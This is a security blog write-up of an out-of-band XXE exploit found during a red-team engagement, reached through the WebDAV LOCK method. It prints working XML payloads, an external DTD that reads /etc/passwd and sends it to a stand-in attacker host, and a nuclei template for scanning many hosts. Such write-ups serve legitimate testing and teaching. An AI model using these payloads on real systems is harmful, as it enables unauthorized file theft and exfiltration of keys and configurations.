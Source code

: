 ```yaml
---
layout: post
title: Exploiting Out-Of-Band XXE on Wildfire
date: 2021-02-19
summary: Data Exfiltration using XXE via HTTP LOCK Method
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone 

In this blog ,i will cover one of the intresting vulnerability **Out-Of-Band XXE via HTTP LOCK Method** that i found during the Red Teaming Engagement in a `Product Based Company` and exploited the vulnerability at a **Large Scale**.

<p align="center">
  <img src="/images/xxe/xxe1.png">
</p>

Kudos to all my team members [Herane Malhotra](https://www.linkedin.com/in/herane-malhotra007/), [Lokendra Singh Rawat](https://www.linkedin.com/in/lokendrasinghrawat/), [Prashant Kumar](https://linkedin.com/in/notsoshant) who worked along during the assessment.

<p align="center">
  <img src="https://media.giphy.com/media/l3V0F3M2nJKxt3I2Y/giphy.gif">
</p>

**How it all started ?**

  Under the **Red Teaming Activty** there are many category such as Cyber Threat Intelligence, Internal Adversary Simulation, External Adversary Simulation, Social Engineering,Deep Web / Dark Web Exposure, OSINT, Phising etc,.
  
<p align="center">
  <img src="/images/xxe/xxe2.png">
</p>
  
  This vulnerability was found during the  **External Adversary Simulation** Category, where we used to test for Web Application and Network Assets to find **Critical Server Side** bugs so that we can exfiltrate data to get an inital foothold.
  
**Let's Dive Deep into it!**

* There were hundreds of login pages under the web application pentesting part and credentials that was obtained from Deep / Dark Web Exposure were not working :(

<p align="center">
  <img src="https://media.giphy.com/media/p52j8LBZGNsMJPqqVF/giphy.gif">
</p>

* Found many login pages which was developed by the company to their customers to handle the data between both the parties.

**Step 1:** Intercept the login request using client side proxy like Burp Suite as shown below.

<p align="center">
  <img src="/images/xxe/xxe3.png">
</p>

**Step 2:** Started to check for different HTTP Methods enabled in the application by using **OPTIONS**

<p align="center">
  <img src="/images/xxe/xxe4.png">
</p>

From the above image , it can be observed that there is no reaction from the application , got the same response we see from **GET** method.

<p align="center">
  <img src="https://media.giphy.com/media/3og0INyCmHlNylks9O/giphy.gif">
</p>

**Step 3:** When i removed `login.jsp` and supplied a notexisting value (test) it showed up the different HTTP Methods that are allowed in the application.

<p align="center">
  <img src="/images/xxe/xxe05.png">
</p>

Note : The allowed methods are OPTIONS, MKCOL, PUT, LOCK.

<p align="center">
  <img src="https://media.giphy.com/media/jchcqpyTpIki4/giphy.gif">
</p>

* There is an existing research paper about **WebDav** by **Mikhail Egorov** 

Reference : [What should a hacker know about WebDav](https://www.slideshare.net/0ang3el/what-should-a-hacker-know-about-webdav)

<p align="center">
  <img src="/images/xxe/xxe12.png">
</p>

* If the application has `PROPPATCH,PROPFIND,LOCK` HTTP methods enabled, it will accept **XML** as input.

**Step 4:** Tried **PUT** method and it returned `403 forbidden error`, but when i tried **LOCK** method it showed up some **XML** data as output as shown below.

<p align="center">
  <img src="/images/xxe/xxe06.png">
</p>

* It was also mentioned that `OOB-XXE` will work with any methods that supports XML input.

<p align="center">
  <img src="/images/xxe/xxe13.png">
</p>

**Step 5:** So i started to test for **OOB-XXE** with basic payload as shown below.

```xml
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://youripaddress.com"> %xxe; ]>
```

<p align="center">
  <img src="/images/xxe/xxe7.png">
</p>

Note: We got both the **HTTP** and **DNS** hit from the server.

**Step 6:** Since it is an `Out-Of-Band XXE` , follow the below steps to set-up the environment.

**Note :** We need to host the DTD file on a web server. Here, we used a simple web server on the cloud and pointed the domain `yourdomainname.com` to the server’s public IP address and hosted the file `exploited.dtd` on the server.

Contents of `exploited.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```

The request body send to the vulnerable URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
%xxe;
%ext;
]>
<foo><u>
&exfil;
</u></foo>
```

<p align="center">
  <img src="/images/xxe/xxe8.png">
</p>

**Step 7:** Now the fun begins , we were able to exfiltrate and read different directory files and sensitive information such as **backup file, configuration file, ssh keys and access logs** etc,.

<p align="center">
  <img src="/images/xxe/xxe9.png">
</p>

<p align="center">
  <img src="/images/xxe/xxe010.png">
</p>

<p align="center">
  <img src="https://media.giphy.com/media/3og0ILLVvPp8d64Jd6/giphy.gif">
</p>

<p align="center"><strong>Exploiting the Flaw in Wildfire</strong></p>

* Since there is a huge number of subdomains , we wrote a nuclei template to detect this **OOB-XXE** as shown below.

```yaml
id: XXE on XXXX Login

info:
  name: XML External Entity-XXXX
  author: dhiyaneshDk
  severity: high

requests:
  - raw: 
      - |
        LOCK /xxxx/test HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Cache-Control: max-age=0
        Content-Length: 178
        
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
        %xxe;
        %ext;
        ]>
        <foo><u>
        &exfil
        </u></foo>

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 500
      - type: word
        words:
          - '/root:x:0:0:root:/root:/bin/bash'
        part: body
```

<p align="center">
  <img src="/images/xxe/xxe11.png">
</p>

* There were around **36+ Instance** which was **Vulnerable** to XXE and cross checked all the instance manually.

<p align="center">
  <img src="https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif">
</p>

<p align="center"><strong>Takeaway</strong></p>

<p align="center">
  <img src="/images/xxe/xxe14.png">
</p>

**Impact :**

The XXE flaw can allow an attacker to turn the XML parser into a proxy which allows local and remote content to be served on request. It allows an attacker to:
* Read files on the application server
* Interact with any back-end or external systems that the application itself can access
* View configuration files present in the system.

**Refernece :**

[Apache Jacrabbit WebDav XXE](https://www.youtube.com/watch?v=Hg3AXoG89Gs)       
[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)            
[Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop/)   
[A Deep Dive into XXE Injection](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
[Milton Webdav 2.7.0.1 XXE Injection](https://packetstormsecurity.com/files/134178/Milton-Webdav-2.7.0.1-XXE-Injection.html)

<p align="center">
  <img src="https://media.giphy.com/media/XCyJsCbOeTBmEsHIss/giphy.gif">
</p>

Thanks a lot for reading :)
